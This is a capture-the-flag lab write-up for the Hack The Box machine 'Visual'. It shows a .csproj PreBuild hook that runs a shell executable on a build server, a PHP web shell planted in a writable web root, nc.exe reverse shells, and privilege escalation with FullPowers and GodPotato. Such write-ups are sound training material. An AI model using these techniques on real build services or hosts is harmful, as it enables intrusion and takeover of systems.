








# Visual

## Gaining Access

```
$ nmap -p- --min-rate 3000 10.129.63.153                
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-01 21:35 +08
Nmap scan report for 10.129.63.153
Host is up (0.0084s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 43.87 seconds
```

There's only one HTTP port that's open, so I can start proxying requests with Burp. Did a detailed scan as well:
```
$ nmap -p 80 -sC -sV --min-rate 4000 10.129.63.153      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-01 21:48 +08
Nmap scan report for 10.129.63.153
Host is up (0.0066s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: Visual - Revolutionizing Visual Studio Builds
```

I added `visual.htb` to the `/etc/hosts` file as per standard practice.

### Web Enumeration --> PreBuild RCE

As expected from the name of the box, this website was Visual Studio themed.



The machine says that we have to include a Git Repo with a `.sln` file for compilation. The page accepts Git Repo URLs:



This looks vulnerable to SSRF, so let's test it by making the machine send a request to our server. This is what a HTTP server would receive:

```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.63.153 - - [01/Oct/2023 21:54:36] code 404, message File not found
10.129.63.153 - - [01/Oct/2023 21:54:36] "GET /info/refs?service=git-upload-pack HTTP/1.1" 404 -
```

So we need to create a `.git` repository with a malicious Visual Studio project. 

The machine explicitly states that .NET 6.0 is supported, and that it only **compiles** the binary. There's no mention anywhere that it will execute it. As such, there's probably a method within VS projects that can make the machine compile, then execute the binary immediately. 

When researching for methods, I came across this, which allows us to execute `.exe` files:



The above allows us to specify commands to be executed before building the project. I tested this by creating a `.sln` project using `dotnet new sln -o rev`. Afterwards, I used `git init` to make it a repository.

This was my `.csproj` file:

```xml
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="shell.exe"/>
  </Target>
</Project>
```

This file can be added using `dotnet sln add test.csproj` and add these files to the `.git` repo:

```bash
git add *
git commit -m "test commit"
```

Afterwards, I used `http://<MY_IP>/.git` to attempt to compile the project. Weirdly, I kept getting a either 404 for `/info/refs?service=git-upload-pack` or the machine complaining that a `.sln` file doesn't exist.

Googling this error just shows this is a permissions issue. Running `git --bare update-server-info` within the `.git` folder will solve both issues. This is because we are trying to access this repository over HTTP, and by default it isn't allowed.  



If done correctly, we would get a ton of GET requests from the machine, and also take quite a while to compile. 

Eventually, would get a shell as `enox`:



## Privilege Escalation

This user didn't have much privileges, but they were part of the SERVICE group, which we might need to use later.

```
C:\Users\enox>whoami /all
whoami /all

USER INFORMATION
----------------

User Name   SID                                          
=========== =============================================
visual\enox S-1-5-21-328618757-2344576039-2580610453-1003


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

### WebShell --> Service User

When checking the `C:\xampp\htdocs` directory, we find that we have permissions to write there:

```
C:\xampp\htdocs>icacls index.php
index.php Everyone:(I)(F)
          NT AUTHORITY\SYSTEM:(I)(F)
          BUILTIN\Administrators:(I)(F)
          BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

C:\xampp\htdocs>echo test > test
```

I downloaded a `cmd.php` shell there (since the website was in PHP), and we can get RCE as another user:



Getting a reverse shell can be done by downloading `nc.exe` onto the machine and running it.



### FullPowers + GodPotato --> Root

`local service` did not have its normal full privileges:

```
C:\xampp\htdocs>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

This is where `FullPowers.exe` comes into play.



Running it gives us another `cmd.exe` shell with more privileges, most notably `SeImpersonatePrivilege`. 



From here, we can use `godpotato.exe` to run commands as the administrator.





Then, we can just get another reverse shell using `nc.exe` again.



Rooted!